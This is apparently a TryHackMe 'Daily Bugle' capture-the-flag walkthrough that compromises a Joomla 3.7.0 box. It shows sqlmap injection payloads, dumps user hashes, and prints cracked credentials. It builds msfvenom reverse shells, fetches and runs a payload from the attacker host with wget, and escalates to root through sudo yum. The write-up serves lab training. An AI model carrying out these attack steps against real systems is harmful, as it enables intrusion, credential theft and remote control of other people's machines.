

# Daily Bugle - TryHackMe

Start with an nmap:

```
┌──(kali㉿kali)-[~/TryHackMe/DailyBugle]
└─$ nmap -sV -sC -Pn 10.10.159.172
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 08:30 EDT
Nmap scan report for 10.10.159.172
Host is up (0.033s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.59 seconds
```

Going on the hosted website gives us this:


In order to try and get the version of Joomla the website utilises, I am using metasploit module `scanner/http/joomla_version`:


Okay, so we now know the Joomla version is 3.7.0, let's see if there are any exploits for this:


Exploit [42033](https://www.exploit-db.com/exploits/42033) on ExploitDB showcases an SQLi on the parameter `list[fullordering]`

I am going to run SQLMap on the target and check whether we have an injection vector:

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.159.172/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -p list[fullordering]

...

sqlmap identified the following injection point(s) with a total of 1900 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 7858 FROM(SELECT COUNT(*),CONCAT(0x716a6a7a71,(SELECT (ELT(7858=7858,1))),0x71626b6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 5409 FROM (SELECT(SLEEP(5)))sDtF)

```

Okay, so the parameter is injectable! Let's see if we can dump the database:

```        
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.159.172/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -p list[fullordering] --dbs

...

available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```

I'm going to explore the joomla database and see what tables are in there:

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.159.172/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -p list[fullordering] --tables -D joomla
```

Within the list is the table #__users. Let's see if we can dump this table:

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.159.172/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -p list[fullordering] --tables -D joomla -T \#__users --dump
```

SQLMap cannot retrieve the columns so I opt for using a wordlist to bruteforce check common collons, and, it finds the following collumns:

```
[09:36:41] [INFO] retrieved: id                                                                                       [09:36:41] [INFO] retrieved: name                                                                                               
[09:36:42] [INFO] retrieved: username                                                                                           
[09:36:45] [INFO] retrieved: email                                                                                              
[09:37:05] [INFO] retrieved: password
```

I end the bruteforce check early, as these columns are sufficient, and am left with the dumped table:


Okay, we have a hash. I start up John with the infamous rockyou wordlist:


Great! We have a username and password combo:
jonah:spiderman123

I head over to /administrator and input the username and password - success! We are in the admin panel.. let's see if we can get a shell.

I notice that I can edit a post and upload an image, however, I have been able to upload a .txt file, and, once it's uploaded, I can access it from the /images/ directory:


So I will create a meterpreter reverse tcp shell to upload using msfvenom:

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p php/reverse_php LHOST=10.9.3.215 LPORT=4444 -f raw > shell.php 
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload                                                                                      
No encoder specified, outputting raw payload                                                                                            
Payload size: 3049 bytes 
```

I then create a Joomla extension by creating a .xml file:


And then zipping up this with the php shell script:

```
┌──(kali㉿kali)-[~/TryHackMe/DailyBugle]
└─$ zip mod_shell.zip mod_shell.php mod_shell.xml
  adding: mod_shell.php (deflated 69%)
  adding: mod_shell.xml (deflated 41%)
```

And uploading it to through joomla admin via Extensions/Manage/Install (top menu):


I then enable the module in the settings, and place it in a given position:


Then I save, and start up netcat listening on port 4444:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444  
listening on [any] 4444 ...
```

And then navigate to the front-end website again in order to load our php module, and we have a shell!


However, I need a better shell; this one keeps dying after the webserver times me out, and it's just kinda ugly.. Let's see if we can get a meterpreter shell:

On my local machine I create a meterpreter binary and host it on a webserver:

```
┌──(kali㉿kali)-[~/TryHackMe/DailyBugle]
└─$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.9.3.215 LPORT=4443 -f elf > shell.elf                                            1 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

                                                                                                                                                
┌──(kali㉿kali)-[~/TryHackMe/DailyBugle]
└─$ python -m SimpleHTTPServer                                                                  
Serving HTTP on 0.0.0.0 port 8000 ...
```

Then on the target I download and execute the binary:

```
wget http://10.9.3.215:8000/shell.elf ./shell.elf
chmod +x shell.elf 
./shell.elf
```

And, in metasploit, I have already setup the reverse connection, and wholla, we have the shell:


Now we need to look at privesc. Initially, I noticed the file configuration.php, and upon catting it, we see some passwords:


And, luckily, the same password is being used for the jjameson account on the box!



Now, after getting the user flag, we can look into privesc. Checking sudo permissions we see that we have NOPASSWD for /usr/bin/yum:


Doing some research on [GTFOBins](https://gtfobins.github.io/gtfobins/yum/), it seems there may be a privesc involving yum not dropping the escalated privileges.

After creating a custom YUM plugin which executes /bin/sh, we have root:


